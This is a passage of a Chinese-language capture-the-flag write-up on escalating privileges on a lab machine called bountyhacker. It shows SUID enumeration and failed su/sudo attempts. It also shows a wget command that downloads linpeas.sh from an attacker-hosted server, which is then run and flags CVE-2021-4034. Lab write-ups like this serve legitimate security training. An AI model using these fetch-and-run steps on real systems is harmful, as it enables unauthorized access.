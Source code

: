 ```
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/snapd/snap-confine
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/bin/umount
**lin@bountyhacker:~$**
```

然后，我咨询了 [GTFOBins (n.d.)](https://gtfobins.github.io/) 来找出执行权限提升的最佳二进制文件。我对上面的一些输出做了一些实验，但是没有成功:

```
**lin@bountyhacker:~$ sudo su**
[sudo] password for lin: 
Sorry, user lin is not allowed to execute '/bin/su' as root on bountyhacker.
**lin@bountyhacker:~$ /bin/su**
Password: 
su: Authentication failure
**lin@bountyhacker:~$ /usr/bin/passwd**
Changing password for lin.
(current) UNIX password: 

passwd: Authentication token manipulation error
passwd: password unchanged
**lin@bountyhacker:~$ 
lin@bountyhacker:~$**
```

然后，我尝试了另一种技术:我使用 LinPEAS ( [Polop n.d.](https://github.com/carlospolop/PEASS-ng) )来列举目标系统的内部漏洞，这些漏洞会导致根用户访问。我在攻击箱上启动了一个小的 HTTP 服务，通过`wget`实用程序将文件传输到系统:

```
**lin@bountyhacker:~$ wget http://attacker.thm:8000/linpeas.sh**
--[redacted]--  http://attacker.thm:8000/linpeas.sh
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827827 (808K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh   100%[==================>] 808.42K   286KB/s    in 2.8s

[redacted] (286 KB/s) - ‘linpeas.sh’ saved [827827/827827]

**lin@bountyhacker:~$ chmod +x linpeas.sh
lin@bountyhacker:~$ ./linpeas.sh**

[... snip ...]    

╔══════════╣ CVEs Check
**Vulnerable to CVE-2021-4034**

Potentially Vulnerable to CVE-2022-2588

[... snip ...]
```
